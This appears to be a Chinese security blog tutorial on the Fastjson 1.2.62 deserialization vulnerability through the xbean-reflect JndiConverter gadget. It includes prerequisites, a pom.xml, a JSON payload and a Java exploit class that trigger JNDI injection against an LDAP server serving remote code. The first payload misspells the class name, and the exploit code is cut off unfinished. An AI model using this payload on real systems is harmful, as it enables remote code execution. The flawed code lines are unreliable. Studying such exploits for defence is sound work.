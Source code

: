 # Fastjson 1.2.62-1.2.68版本反序列化漏洞

  
  
&lt;!--more--&gt;  
## 0x01 1.2.62反序列化漏洞  
### 前提条件  
需要开启AutoType  
Fastjson&lt;=1.2.62  
JNDI注入利用所受的JDK版本限制  
目标服务端需要存在`xben-reflect`包；xbean-reflect包的版本不限  
pom.xml  
```xml  
&lt;dependencies&gt;  
  
&lt;dependency&gt;    
 &lt;groupId&gt;com.alibaba&lt;/groupId&gt;    
 &lt;artifactId&gt;fastjson&lt;/artifactId&gt;    
 &lt;version&gt;1.2.62&lt;/version&gt;    
&lt;/dependency&gt;    
&lt;dependency&gt;    
 &lt;groupId&gt;org.apache.xbean&lt;/groupId&gt;    
 &lt;artifactId&gt;xbean-reflect&lt;/artifactId&gt;    
 &lt;version&gt;4.18&lt;/version&gt;    
&lt;/dependency&gt;    
&lt;dependency&gt;    
 &lt;groupId&gt;commons-collections&lt;/groupId&gt;    
 &lt;artifactId&gt;commons-collections&lt;/artifactId&gt;    
 &lt;version&gt;3.2.1&lt;/version&gt;    
&lt;/dependency&gt;  
&lt;/dependencies&gt;  
```  
### 漏洞原理与EXP  
新Gadget绕过黑名单限制。  
`org.apache.xbean.propertyeditor.JndiConverter`类的`toObjectImpl()`函数存在JNDI注入漏洞，可由其构造函数处触发利用。  
这里可以到`JndiConverter`这个类里面，看到`toObjectImpl()`方法确实是存在JNDI漏洞的。  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408011846417.png)
但是这个`toObjectImpl()`方法并不是`getter/setter`方法，也不是构造函数。  
因为我们对`JndiConverter`这个类进行反序列化的时候，会自动调用它的构造函数，而它的构造函数里面调用了它的父类。所以我们反序列化的时候不仅能够调用`JndiConverter`这个类，还会去调用它的父类`AbstractConverter`  
查找一下哪里调用了`toObjectImpl()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202408011859971.png)
正好在`AbstractConverter`类中的`setter`方法中调用了。  
所以payload可以设置成这样  
```java  
&#34;{\&#34;@type\&#34;:\&#34;org.apache.xbean.propertyeditor.JndiConverte\&#34;, \&#34;AsText\&#34;:\&#34;ldap://127.0.0.1:1234/ExportObject\&#34;}  
&#34;  
```  
EXP如下  
```java  
import com.alibaba.fastjson.JSON;    
import com.alibaba.fastjson.parser.ParserConfig;    
import org.apache.xbean.propertyeditor.JndiConverter;    
    
public class EXP{    
    public static void main(String[] args) {  
    ParserConfig.getGlobalInstance().setAutoTypeSupport(true);    
 String poc = &#34;{\&#34;@type\&#34;:\&#34;org.apache.xbean.propertyeditor.JndiConverter\&#34;,&#34;&#43;&#34;\&#34;AsText\&#34;:\&#34;ldap://127.0.0.1:1234/ExportObject\&#34;}&#34;;    
 JSON.parse(poc);  
```